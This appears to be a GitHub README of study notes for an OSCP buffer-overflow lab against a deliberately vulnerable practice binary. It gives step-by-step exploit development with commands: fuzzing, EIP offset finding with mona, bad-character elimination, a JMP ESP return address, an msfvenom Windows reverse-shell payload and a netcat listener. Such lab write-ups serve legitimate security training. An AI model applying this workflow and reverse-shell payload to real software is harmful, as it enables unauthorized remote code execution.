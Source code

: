 # oscp_bof-prep
Buffer Overflow preparation for OSCP

# Task: oscp.exe (OVERFLOW 1)
# Fuzzing
1. Run fuzzer.py & make a note of the largest number of bytes that were sent
   * Crashed at 2000 bytes

# Crash replication & Controlling EIP
1. Generate a cyclic pattern of a length 400 bytes longer than the string that crashed the server (2000 + 400)
   * ./pattern_create.rb -l 2400

2. Copy the output and place it into the payload var of exploit.py
3. Restart the app in Immunity Debugger & Run exploit.py
4. While the unique buffer is on the stack, use mona's findmsp command with the distance arg. set to the pattern length (2400)
   * !mona findmsp -distance 2400


5. Set the offset var to this value in exploit.py(1978)
6. Set the payload var to an empty string
7. Set the retn var to “BBBB”
8. Restart the app in Immunity & Run exploit.py (EIP should be overwritten with 4 B's (e.g 42424242)


# Finding Bad Characters
1. Generate a bytearray with mona (& exclude null byte \x00 by default), note the location of bytearray.bin
   * !mona bytearray -b “\x00”
3. Generate an identical bytearray with bytearray.py
4. Update exploit.py and set the payload var to the string of badchars the script generates
5. Restart the app in Immunity & Run exploit.py, make note of the address to which ESP register points
   * !mona compare -f C:\mona\oscp\bytearray.bin -a [ESP]

5. Generate a new bytearray with mona, specifying the found badchars along with \x00 & Update payload var in exploit.py and remove the new badchars as well
   * !mona bytearray -b “\x00\x07\x08\x2e\x2f\xa0\xa1”
6. Restart app & Run exploit
7. Do this until results status returns “Unmodified”. This indicates that no more badchars exist.


# Finding a Jump Point
1. Run the following mona command with all the identified badchars (including \x00)
   * !mona jmp -r esp -cpb “\x00\x07\x08\x2e\x2f\xa0\xa1”


2. Choose an address and update exploit.py, setting the retn var to the address, written backwards (little endian).
   1) \x62\x50\x11\xaf -> \xaf\x11\x50\x62

# Generate Payload
1. msfvenom (LHOST=kali_vpn_ip, -b with all the identified badchars)
   * msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f c
2. Update payload var in exploit.py

# Prepend NOPs
1. padding = “\x90” * 16

# Exploit
1. start netcat listener on attacker machine (nc -nlvp 4444)
2. Restart app in immunity & Run exploit.py

# Reference
* https://tryhackme.com/room/bufferoverflowprep
* https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst